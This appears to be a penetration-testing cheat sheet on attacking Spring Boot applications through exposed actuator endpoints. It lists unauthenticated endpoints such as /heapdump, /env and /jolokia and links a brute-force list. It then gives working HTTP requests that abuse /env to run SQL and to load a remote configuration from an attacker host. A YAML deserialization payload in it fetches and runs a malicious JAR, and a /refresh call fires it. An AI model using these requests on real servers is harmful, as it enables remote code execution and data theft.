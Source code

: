 Spring Boot
===========


## Spring Boot Actuators API

The Spring Boot Framework includes a bunch of features called `actuators` to monitor apps.
When the application is running, it registers endpoints that are accessible without
authentication.

Here are some `actuators`:

 - `/dump`: displays a dump of threads (including a stack trace)
 - `/trace`: displays the last several HTTP messages (which could include session identifiers)
 - `/logfile`: outputs the contents of the log file
 - `/shutdown`: shuts the application down
 - `/mappings`: shows all of the MVC controller mappings
 - `/env`: provides access to the configuration environment
 - `/restart`: restarts the application


For instance, it's possible to [dump the heap memory](https://docs.spring.io/spring-boot/docs/current-SNAPSHOT/actuator-api/html/#heapdump)
of the server:

```
https://<host>/path/actuator/heapdump
```

A brute-force list can be found here: [spring_boot.txt](./assets/spring_boot.txt)


## Jolokia

An other Sping Boot endpoint is `jolokia`. It allow the user to perform the same
actions as the JMX.

```
https://<host>/path/jolokia/list
```

It can be used to perform remote code execution.


## Env

The `/env` endpoint allows to update the Spring Boot environmental properties.
It's possible to execute SQL commands:

```
POST /env HTTP/1.1
Host: <host>
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

spring.datasource.tomcat.validationQuery=<sql cmd>
```

Also, it's possible to update the `env` to execute code with the properties:
`spring.cloud.bootstrap.location` which is used to load external configuration file:

```
POST /env HTTP/1.1
Host: <host>
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

spring.cloud.bootstrap.location=http://<attacker>/malicious-config-file.yml
```

The malicious configuration file can be:
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://<attacker>/malicious.jar"]
  ]]
]
```

You need to refresh the configuration:
```
POST /refresh HTTP/1.1
Host: <host>
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
